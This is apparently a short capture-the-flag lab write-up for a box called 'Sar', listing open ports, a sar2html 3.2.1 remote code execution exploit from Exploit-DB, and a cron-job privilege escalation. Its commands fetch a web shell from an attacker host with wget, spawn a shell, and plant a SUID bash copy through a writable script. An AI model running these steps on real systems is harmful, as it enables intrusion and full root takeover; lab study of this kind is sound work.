


# Sar

**IP Address:** 192.168.76.35

## Enumeration
### Open Ports
| Port #| Service | Details  |
|:------|:---------|:---------|
| 22    | ssh      | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80    | http      | Apache/2.4.29 |

## Exploitation
### Exploit Details (SearchSploit)
* **Name** - sar2html 3.2.1 - 'plot' Remote Code Execution 
* **CVE** - N/A
* **Module** - php/webapps/49344.py 
* **Disclosed** - 2021-01-04 
* **References**
  * https://www.exploit-db.com/exploits/49344

### Process

**Execute Exploit**

Commands
```bash
searchsploit -m 49344
python3 49344.py 
http://192.168.76.35/sar2HTML/
wget http://192.168.49.76/shell.php
curl http://192.168.76.35/sar2HTML/shell.php
python3 -c 'import pty;pty.spawn("/bin/bash")'
id
cat /home/local.txt
ifconfig
```




## Privilege Escalation
### Exploit Details (Cronjob)
* **Name** - ./finally.sh 
* **CVE** - N/A
* **Exploit** - 
* **Disclosed** - N/A

A Cronjob is configured to run /var/www/html/finally.sh every 5 minutes. This file is not writeable but it runs /var/www/html/write.sh which is. We simply need to modify the write.sh script to include our payload, then wait 5 minutes for the Cronjob to run.


Commands
```
echo 'cp /bin/bash /var/www/html/rootbash' >> /var/www/html/write.sh
echo 'chmod +s /var/www/html/rootbash' >> /var/www/html/write.sh
/rootbash -p
id
cat /root/proof
ifconfig
```


